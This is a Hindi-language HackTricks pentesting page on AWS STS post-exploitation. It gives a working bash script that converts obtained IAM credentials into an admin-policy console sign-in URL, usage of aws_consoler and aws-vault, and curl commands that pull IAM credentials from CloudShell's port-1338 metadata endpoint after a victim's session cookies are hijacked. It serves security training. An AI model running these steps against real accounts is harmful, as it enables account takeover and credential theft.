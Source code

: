 # AWS - STS के बाद का उपयोग

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग तकनीकें साझा करें.

</details>

## STS

अधिक जानकारी के लिए:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### IAM Creds से Console तक

यदि आपने कुछ IAM प्रमाणपत्र प्राप्त कर लिए हैं, तो आप निम्नलिखित उपकरणों का उपयोग करके **वेब कंसोल तक पहुँचने** में रुचि रख सकते हैं।\
ध्यान दें कि उपयोगकर्ता/भूमिका के पास **`sts:GetFederationToken`** अनुमति होनी चाहिए।

#### कस्टम स्क्रिप्ट

निम्नलिखित स्क्रिप्ट डिफ़ॉल्ट प्रोफ़ाइल और एक डिफ़ॉल्ट AWS स्थान (gov और cn नहीं) का उपयोग करेगी ताकि आपको एक हस्ताक्षरित URL प्रदान किया जा सके जिसका उपयोग आप वेब कंसोल में लॉगिन करने के लिए कर सकते हैं:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo $resp | jq -r '.SigninToken')

# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

आप [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler) के साथ **वेब कंसोल लिंक जनरेट** कर सकते हैं।
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
सुनिश्चित करें कि IAM उपयोगकर्ता के पास `sts:GetFederationToken` अनुमति है, या एक भूमिका प्रदान करें जिसे मान लिया जा सके।
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) एक उपकरण है जो AWS प्रमाणपत्रों को विकास पर्यावरण में सुरक्षित रूप से संग्रहीत करने और पहुँच प्रदान करने के लिए है।
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
आप **aws-vault** का उपयोग करके **ब्राउज़र कंसोल सेशन** प्राप्त कर सकते हैं।
{% endhint %}

#### कंसोल से IAM क्रेडेंशियल्स तक

यदि आप वेब कंसोल तक कुछ पहुँच हासिल कर लेते हैं (शायद आपने कुकीज़ चुरा ली हों और .aws फोल्डर तक पहुँच नहीं पा रहे हों), तो आप **CloudShell** के माध्यम से उस उपयोगकर्ता के लिए कुछ IAM टोकन क्रेडेंशियल्स प्राप्त कर सकते हैं।

CloudShell **पोर्ट 1338 पर एक अप्रलेखित एंडपॉइंट** के माध्यम से IAM क्रेडेंशियल्स प्रदर्शित करता है। पीड़ित की सेशन कुकीज़ को अपने ब्राउज़र में लोड करने के बाद, आप CloudShell पर नेविगेट कर सकते हैं और IAM क्रेडेंशियल्स प्राप्त करने के लिए निम्नलिखित कमांड्स जारी कर सकते हैं।
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>
